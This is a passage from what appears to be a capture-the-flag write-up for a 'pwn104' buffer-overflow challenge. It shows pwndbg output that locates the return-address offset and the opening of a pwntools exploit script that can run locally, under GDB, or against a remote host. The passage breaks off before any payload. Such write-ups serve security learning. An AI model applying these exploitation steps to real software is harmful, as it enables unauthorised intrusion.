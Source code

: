 ![pwn104.png](https://raw.githubusercontent.com/VOiD-Ayush/The_Awesome_Blog/main/all_collections/_posts/images/pwn101/pwn104.png)



```bash
# finding the rip offset

RBP  0x6161617661616175 ('uaaavaaa')
RSP  0x7fffffffde28 ◂— 0x6161617861616177 ('waaaxaaa')

pwndbg> cyclic -l waaa
88

```

Our Exploit

```py
# /chall4/get_shell.py

#!/usr/bin/env python3
from pwn import *

exe = './pwn104.pwn104'

elf = context.binary = ELF(exe,checksec=False)
# context.log_level='debug'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
```